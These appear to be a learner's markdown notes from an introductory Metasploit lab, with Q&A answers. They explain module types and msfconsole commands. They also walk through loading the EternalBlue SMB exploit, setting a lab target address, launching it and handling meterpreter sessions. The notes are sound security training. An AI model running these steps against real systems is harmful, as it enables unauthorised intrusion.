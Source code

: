 # Introduction to Metasploit
```bash
msfconsole 
```
-to launch Metasploit

Exploit: A piece of code that uses a vulnerability present on the target system.

Vulnerability: A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.

Payload: An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.

### Auxilary
Any supporting module, such as scanners, crawlers and fuzzers, can be found here.

```bash
show auxiliary
```


### Encoders
Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

```bash
show encoders
```


### Evasion
While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.

```bash
show evasion
```


### Exploits
Exploits, neatly organized by target system.

```bash
show exploits
```


### NOPs
NOPs (No OPeration) do nothing, literally. They are represented in the Intel x86 CPU family with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.

```bash
show nops
```

### Payloads
Payloads are codes that will run on the target system.

```bash
show payloads
```

Four different directories under payloads: adapters, singles, stagers and stages.

Adapters: An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.

Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.

Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.

Stages: Downloaded by the stager. This will allow you to use larger sized payloads.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

generic/shell_reverse_tcp
windows/x64/shell/reverse_tcp
Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.

### Post
Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.

```bash
show post
```

### Q&A
What is the name of the code taking advantage of a flaw on the target system?
Exploit

What is the name of the code that runs on the target system to achieve the attacker's goal?
Payload

What are self-contained payloads called?
Singles

Is "windows/x64/pingback_reverse_tcp" among singles or staged payload?
Singles


### " use " 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
 command, you will see the command line prompt change from msf6 to “msf6 exploit(windows/smb/ms17_010_eternalblue)”. The "EternalBlue" is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: x64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14
```

 can use the  info command followed by the module’s path from the msfconsole prompt.

 

One of the most useful commands in msfconsole is search. This command will search the Metasploit Framework database for modules relevant to the given search parameter. 

Source: https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking
```bash
msf6 > search type:auxiliary telnet
```
search results 

### Q&A
How would you search for a module related to Apache?
search apache

Who provided the auxiliary/scanner/ssh/ssh_login module?
todb

### Working with modules

Set or unset  parameter

```bash
set rhosts 10.10.165.39
```

```bash
unset rhosts 10.10.165.39
```

```bash
unset all
```
The setg command sets a global value that will be used until you exit Metasploit or clear it using the unsetg command.
### Using modules

The exploit command can be used without any parameters or using the “-z” parameter.

The exploit -z command will run the exploit and background the session as soon as it opens.
```bash
sf6 > use exploit/windows/smb/ms17_010_eternalblue 
```

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z
```
## Sessions

You can use the " background " command to background the session prompt and go back to the msfconsole prompt.
```bash
meterpreter > background
```
The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
```
To interact with any session, you can use the " sessions -i "command followed by the desired session number.

### Q&A
How would you set the LPORT value to 6666?
set LPORT 6666

How would you set the global value for RHOSTS  to 10.10.19.23 ?
setg RHOSTS 10.10.19.23

What command would you use to clear a set payload?
unset PAYLOAD

What command do you use to proceed with the exploitation phase?
exploit


